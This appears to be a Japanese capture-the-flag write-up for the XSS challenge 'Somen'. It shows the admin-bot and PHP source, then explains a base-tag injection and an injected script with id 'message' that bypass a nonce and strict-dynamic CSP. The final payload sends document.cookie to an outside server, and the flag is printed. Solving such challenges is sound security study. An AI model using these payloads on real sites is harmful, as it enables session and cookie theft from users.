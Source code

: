 # Somen
421 pt (20 Solves)
```
Somen is tasty.
[url]
```

<details>
  <summary>worker.js</summary>
  
  ```js
  const puppeteer = require('puppeteer');

/* ... ... */

// initialize
const browser = await puppeteer.launch({
    executablePath: 'google-chrome-unstable',
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disk-cache-dir=/dev/null',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update',
    ],
});
const page = await browser.newPage();

// set cookie
await page.setCookie({
    name: 'flag',
    value: process.env.FLAG,
    domain: process.env.DOMAIN,
    expires: Date.now() / 1000 + 10,
});

// access
// username is the input value of players
const url = `[url]/?username=${encodeURIComponent(username)}`;
try {
    await page.goto(url, {
        waitUntil: 'networkidle0',
        timeout: 5000,
    });
} catch (err) {
    console.log(err);
}

// finalize
await page.close();
await browser.close();

/* ... ... */
  ```
</details>
<details>
  <summary>index.php</summary>
  
  ```php
  <?php
$nonce = base64_encode(random_bytes(20));
header("Content-Security-Policy: default-src 'none'; script-src 'nonce-${nonce}' 'strict-dynamic' 'sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A='");
?>

<head>
    <title>Best somen for <?= isset($_GET["username"]) ? $_GET["username"] : "You" ?></title>

    <script src="/security.js" integrity="sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A="></script>
    <script nonce="<?= $nonce ?>">
        const choice = l => l[Math.floor(Math.random() * l.length)];

        window.onload = () => {
            const username = new URL(location).searchParams.get("username");
            const adjective = choice(["Nagashi", "Hiyashi"]);
            if (username !== null)
                document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
        }
    </script>
</head>

<body>
    <h1>Best somen for You</h1>

    <p>Please input your name. You can use only alphabets and digits.</p>
    <p>This page works fine with latest Google Chrome / Chromium. We won't support other browsers :P</p>
    <p id="message"></p>
    <form action="/" method="GET">
        <input type="text" name="username" place="Your name"></input>
        <button type="submit">Ask</button>
    </form>
    <hr>

    <p> If your name causes suspicious behavior, please tell me that from the following form. Admin will acceess /?username=${encodeURIComponent(your input)} and see what happens.</p>
    <form action="/inquiry" method="POST">
        <input type="text" name="username" place="Your name"></input>
        <button type="submit">Ask</button>
    </form>

</body>
  ```
</details>

## 概要
テキストボックスが2つある。1個は自分で実行、もう1個はクローラーに実行させる。  
usernameに入力した内容が挿入されるので、XSSだろう。
しかし`security.js`とCSPの所為で全然上手くいかない。

`worker.js`をみるとcookieにflagがあるのがわかる。  

## 解
目標は2つ。
1. security.jsの制限をバイパス
1. CSPのバイパス

#### security.jsの制限をバイパス

```html
</title><base href="//example.com">
```

これを書き込むと以下のような状態になる。

```html
<base href="//example.com">  
<script src="./security.js">
```

`./security.js`は`example.com/security.js`として処理され、コンソールログに404が表示される。  

#### CSPのバイパス
`security.js`はバイパスできたので次はCSPのバイパスを目指す。
CSPの`nonce`と`strict-dynamic`のバイパスを調べてたら[良さげな記事](https://szarny.hatenablog.com/entry/2019/01/01/XSS_Challenge_%28%E3%82%BB%E3%82%AD%E3%83%A5%E3%83%AA%E3%83%86%E3%82%A3%E3%83%BB%E3%83%9F%E3%83%8B%E3%82%AD%E3%83%A3%E3%83%B3%E3%83%97_in_%E5%B2%A1%E5%B1%B1_2018_%E6%BC%94%E7%BF%92%E3%82%B3%E3%83%B3)。case23が似てる状況。  
既に実行を許可されたscriptタグの中に任意のjsを埋め込みたい。
case23を参考にとりあえず書いてみたら発火。

```html
<p id="message">[username], I recommend Nagashi somen for you.</p>
```

のように代入されてるので、idがmessageなscriptタグを作る。

```
alert();//</title><script id="message"></script><base href="http://example.com">
```

上を入力するとHTMLは以下のようになる。HTMLとしては壊れてるけど、よしなにしてくれる。
titleに代入されたうえでidがmessageなとこに代入されるので結構ごちゃごちゃ。

```html
 <title>Best somen for alert();//</title>
 <script id="message">
 alert();//</title><script id="message"></script><base href="http://example.com">, I recommend Nagashi somen for you.
 </script><base href="http://example.com">
```

アクセスされたときにurlを表示するようなwebサーバを用意して

```
document.location=`/?q=${encodeURIComponent(document.cookie)}`;//</title><script id="message"></script><base href="[url]">
```

を入力すればflag。

```
ctf4b{1_w0uld_l1k3_70_347_50m3n_b3f0r3_7ry1n6_70_3xpl017}
```